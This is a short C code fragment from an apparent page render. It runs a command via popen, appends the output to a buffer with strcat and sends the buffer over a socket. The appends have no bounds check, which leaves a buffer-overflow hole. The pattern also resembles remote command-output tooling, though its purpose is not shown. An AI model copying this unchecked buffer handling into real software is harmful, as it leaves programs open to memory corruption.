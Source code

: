 ```c
    char path[1035];
    fp = popen(awkCmd, "r");
    while (fgets(path, sizeof(path), fp) != NULL) {
      strcat(resultBuffer, path);
    }
    /* close */
    pclose(fp);
  }


  send(sock, resultBuffer, strlen(resultBuffer), 0);
  return;
}
```
